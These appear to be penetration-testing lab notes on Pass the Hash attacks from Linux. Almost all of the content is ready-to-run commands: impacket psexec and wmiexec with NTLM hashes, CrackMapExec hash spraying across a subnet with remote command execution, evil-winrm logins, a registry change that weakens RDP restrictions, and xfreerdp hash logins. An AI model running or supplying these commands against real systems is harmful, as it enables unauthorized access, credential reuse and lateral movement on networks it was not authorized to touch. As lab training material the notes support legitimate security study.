 ***Note: When using a domain account, we need to include the domain name, for example: administrator@inlanefreight.htb***
## Pass the Hash with Impacket (Linux)
### Pass the Hash with Impacket PsExec
```
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```
```
impacket-wmiexec
```
```
impacket-atexec
```
```
impacket-smbexec
```
## Pass the Hash with CrackMapExec
```
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```
If we want to perform the same actions but attempt to authenticate to each host in a subnet using the local administrator password hash, we could add --local-auth to our command. This method is helpful if we obtain a local administrator hash by dumping the local SAM database on one host and want to check how many (if any) other hosts we can access due to local admin password re-use. If we see Pwn3d!, it means that the user is a local administrator on the target computer. We can use the option -x to execute commands. 
```
crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```
### Pass the Hash with evil-winrm (Linux)
If SMB is blocked or we don't have administrative rights, we can use this alternative protocol to connect to the target machine.
```
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```
### Pass the Hash with RDP (Linux)
Restricted Admin Mode, which is disabled by default, should be enabled on the target host; otherwise, you will be presented with the following error:
#### Account restrictions .... (blue screen)
Enable Restricted Admin Mode to Allow PtH (it can be used using powershell when connected to evil-winrm)
```
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
#### Pass the Hash Using RDP
```
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
```